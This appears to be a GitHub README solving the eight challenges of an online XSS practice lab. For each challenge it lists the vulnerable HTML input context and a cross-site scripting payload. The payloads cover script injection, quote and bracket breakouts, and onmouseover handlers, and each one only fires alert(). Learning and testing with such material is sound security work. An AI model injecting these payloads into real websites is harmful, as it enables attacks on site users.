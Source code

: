 # XSS-Practice-Lab


##Lab Link : http://leettime.net/xsslab1/chalg1.php

Author : Sheikh Rishad

<XSS Practice Lab/>


Challenge_1:

<input type="text" name="name"></input>

payload :   <script>alert(1)</script>


Challenge_2:

<input type="text" name="name" value=hack></input>

payload :  ><script>alert(document.URL)</script>


Challenge_3:

<input type="text" name="name" value="hack"></input>

payload :  "><script>alert(document.URL)</script>


Challenge_4:

<input type="text" name="name" value='hack'></input>

payload :   '><script>alert(document.URL)</script>


Challenge_5:

<center><script>var search_str="hack";</script>

payload :   </script><script>alert(document.URL)</script>


Challenge_6:

<center><script>var search_str='hack';</script>

payload : </script><script>alert(document.URL)</script>


Challenge_7:

<input type="text" name="name" value='<scriptalert("hack")</script'></input>

payload :   'onmouseover='alert(document.URL);


Challenge_8:

<input type="text" name="name" value='&gt;&lt;script&gt;alert(1)&lt;/script&gt;'></input>

payload :   "onmouseover="alert(document.URL);
